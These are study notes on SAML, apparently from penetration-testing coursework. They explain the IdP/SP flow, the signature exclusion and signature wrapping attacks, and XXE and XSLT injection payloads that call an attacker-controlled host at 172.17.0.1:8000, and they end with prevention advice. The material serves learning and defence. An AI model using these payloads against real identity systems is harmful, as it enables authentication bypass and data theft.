

# SAML
## SAML Components
- **Identity Provider (IdP)**: The entity that authenticates users. The IdP provides identity information to other components and issues SAML assertions
- **Service Provider (SP)**: The entity that provides a service or a resource to the user. It relies on SAML assertions provided by the IdP
- **SAML Assertions**: XML-based data that contains information about a user's authentication and authorization status

## SAML Flow
1. The user accesses a resource provided by the SP
2. Since the user is not authenticated, the SP initiates authentication by redirecting the user to the IdP with a SAML request
3. The user authenticates with the IdP
4. The IdP generates a SAML assertion containing the user's information, digitally signs the SAML assertion, and sends it in the HTTP response to the browser. The browser sends the SAML assertion to the SP
5. The SP verifies the SAML assertion
6. The user requests the resource
7. The SP provides the resource


## Attacks
### Signature Exclusion Attack
Remove signatures from all assertions or from special one

### Signature Wrapping Attack

Signature Wrapping is a class of attack against SAML implementations that intends to create a discrepancy between the signature verification logic and the logic extracting the authentication information from the SAML assertion. This is achieved by injecting XML elements into the SAML response that do not invalidate the signature but potentially confuse the application, resulting in the application using the injected and unsigned authentication information instead of the signed authentication information.
```XML
<samlp:Response ID="_941d62a2c2213add334c8e31ea8c11e3d177eba142" [...] >
	[...]
	<saml:Assertion ID="_3227482244c22633671f7e3df3ee1a24a51a53c013" [...] >
	    [...]
	    <ds:Signature>
	        <ds:SignedInfo>
	            [...]
	            <ds:Reference URI="#_3227482244c22633671f7e3df3ee1a24a51a53c013">
                [...]
	            </ds:Reference>
	        </ds:SignedInfo>
	    </ds:Signature>
	    [...]
	 </saml:Assertion>   
</samlp:Response>
```

As we can see, the `ds:Signature` node contains a `ds:Reference` node containing a URI attribute with the value `#_3227482244c22633671f7e3df3ee1a24a51a53c013`. This indicates that the signature was computed over the XML node with the ID `_3227482244c22633671f7e3df3ee1a24a51a53c013`.

Furthermore, there are different locations where the signature can be located:

- `enveloped` signatures are descendants of the signed resource
- `enveloping` signatures are predecessors of the signed resource
- `detached` signatures are neither descendants nor predecessors of the signed resource

#### enveloping signature

```XML
<samlp:Response ID="_941d62a2c2213add334c8e31ea8c11e3d177eba142" [...] >
	[...]
	<ds:Signature>
		<ds:SignedInfo>
		    [...]
		    <ds:Reference URI="#_3227482244c22633671f7e3df3ee1a24a51a53c013">
	            [...]
		    </ds:Reference>
	    </ds:SignedInfo>
		<saml:Assertion ID="_3227482244c22633671f7e3df3ee1a24a51a53c013" [...] >
		    [...]    
		</saml:Assertion> 
		[...]
	</ds:Signature>
</samlp:Response>
```

#### detached signature

```XML
<samlp:Response ID="_941d62a2c2213add334c8e31ea8c11e3d177eba142" [...] >
	[...]
	<saml:Assertion ID="_3227482244c22633671f7e3df3ee1a24a51a53c013" [...] >
	    [...]
	 </saml:Assertion> 
	 <ds:Signature>
	    <ds:SignedInfo>
		    [...]
		    <ds:Reference URI="#_3227482244c22633671f7e3df3ee1a24a51a53c013">
                [...]
	        </ds:Reference>
	    </ds:SignedInfo>
	</ds:Signature>
	[...]
</samlp:Response>
```

The signature wrapping attack is successful if the following holds:

The signature verification logic searches the SAML response for the ds:Signature node and the element referenced in the ds:Reference element. The signature is then verified, and no additional checks are performed (such as a check of the number of SAML assertions present in the SAML response)
The application logic retrieves authentication information from the first SAML assertion it finds within the SAML response

### XXE

To inject the payload, we need to obtain the XML representation of the SAML response, just like we did in the previous sections. We can then inject the payload at the beginning of the SAML response, resulting in the following structure:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://172.17.0.1:8000"> %xxe; ]>
<samlp:Response>
	[...]
</samlp:Response>
```

Since the vulnerability typically does not display the resulting data to us, we are dealing with a blind vulnerability, which makes successful exploitation significantly more complex.

### XSLT Server-side Injection

Similarly to XXE, a misconfigured XML parser might also be vulnerable to XSLT server-side injection, depending on how the XML parser handles the SAML response data. Like before, we will try to inject a payload, resulting in a connection to a server under our control. We can achieve this using an XSLT payload like the following:
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:copy-of select="document('http://172.17.0.1:8000/')"/>
</xsl:template>
</xsl:stylesheet>
```

## Tools
`SAML Raider` is an extension for BurpSuite that we can use to identify and exploit vulnerabilities in SAML implementations.

## Vulnerability Prevention
To prevent vulnerabilities resulting from improper implementation of SAML, it is essential to use an established SAML library to handle any SAML-related operations, such as signature verification and extraction of authentication-related information from SAML assertions. If kept up-to-date, modern SAML libraries will be patched against the vulnerabilities discussed in the previous sections.

